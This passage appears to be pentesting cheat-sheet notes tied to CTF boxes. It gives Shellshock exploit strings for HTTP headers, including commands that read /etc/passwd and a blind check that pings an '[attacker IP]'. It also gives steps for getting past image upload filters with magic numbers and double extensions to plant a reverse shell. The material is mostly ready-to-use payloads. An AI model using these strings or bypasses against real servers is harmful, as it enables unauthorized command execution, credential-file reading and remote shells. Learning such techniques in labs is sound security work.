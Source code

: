 Attempt these exploit strings within HTTP Request Headers as that is the most common place vulnerable CGI Environmental Variables are located in web applications. 1. Non-blind Injection

```text
() { 1010;};echo;[full path to command]
```

* /usr/bin/id
* /bin/cat /etc/passwd
  1. Blind Injection

     ```text
     () { 1010;};echo;ping -c 1 [attacker IP]
     ```
* Need to have a python webserver running on the attacker machine on port 80.

  ```text
  () { 1010;};echo;sleep 10
  ```

* Wait 10 seconds to see if the injection was adhered to. \(ippsec:beep\)

## Image Upload Restriction Bypass \(Vulnhub:init\)

* If there are opportunities to upload documents / images to a server there will generally be some low-bar defensive code to ensure documents / images are not scripts.
* The below techniques are ones that can bypass most image upload defensive code techniques.
* Use of [Magic Numbers](https://en.wikipedia.org/wiki/List_of_file_signatures) to make any file look like a certain file type.  This ISO 8859-1 value should be the first line in the file to make it appear like certain file types.
  * You can test this by running a file command on the file.
* Insert the reverse shell or test code into the body of the file.
* Change the extension to something that is allowed.
  * file.php\[.gif\]

